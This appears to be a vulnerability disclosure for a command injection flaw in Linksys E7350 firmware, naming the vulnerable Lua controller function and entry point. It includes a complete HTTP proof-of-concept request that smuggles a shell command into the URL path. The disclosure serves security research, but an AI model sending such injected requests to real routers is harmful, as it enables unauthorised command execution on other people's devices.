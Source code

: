 # Linksys E7350 Ver.1.1.00.032 Command Injection (apcli_do_enr_pbc_wps)

## Product Information

- Device: Linksys E7350
- Firmware Version: Ver.1.1.00.032
- Manufacturer's website information：https://www.linksys.com/
- Firmware download address ：https://support.linksys.com/kb/article/6935-cn/

![](./1.png)

## Vulnerability Description

In the `/usr/lib/lua/luci/controller/mtkwifi.lua` file, there is a **command injection vulnerability** in the `apcli_do_enr_pbc_wps` function via the `ifname` parameter.

![](./2.png)

Entry: `/admin/mtk/wifi/apcli_do_enr_pbc_wps/arg`

![](./3.png)

## Payload

We can trigger this vulnerability by injecting the `ls>1234.txt` command using the following payload.

```http
GET /cgi-bin/luci/admin/mtk/wifi/apcli_do_enr_pbc_wps/;ls>1234.txt; HTTP/1.1
Host: 192.168.187.136
Connection: close
Cache-Control: max-age=0
sec-ch-ua: "Google Chrome";v="131", "Chromium";v="131", "Not_A Brand";v="24"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: sysauth=2066ce7be48fd3ba36e4135e973cd840
```

![](./4.png)

After the injection, we can verify the result.

![](./5.png)
